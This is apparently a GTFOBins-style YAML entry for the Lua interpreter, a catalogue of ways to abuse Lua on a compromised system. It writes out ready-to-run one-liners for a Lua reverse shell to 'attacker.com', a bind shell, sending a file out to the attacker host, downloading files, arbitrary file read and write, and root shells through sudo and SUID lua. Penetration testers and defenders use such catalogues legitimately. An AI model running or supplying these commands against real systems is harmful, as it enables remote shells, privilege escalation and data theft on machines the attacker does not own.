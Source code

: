 ```yaml
---
functions:
  shell:
    - code: lua -e 'os.execute("/bin/sh")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires `lua-socket` installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        lua -e 'local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires `lua-socket` installed.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        lua -e '
          local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345
        < "file_to_send"` on the attacker box to send the file. This requires `lua-socket` installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        lua -e 'local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: lua -e 'local f=io.open("file_to_write", "wb"); f:write("DATA"); io.close(f);'
  file-read:
    - code: lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);'
  sudo:
    - code: sudo lua -e 'os.execute("/bin/sh")'
  limited-suid:
    - code: ./lua -e 'os.execute("/bin/sh")'
---
```

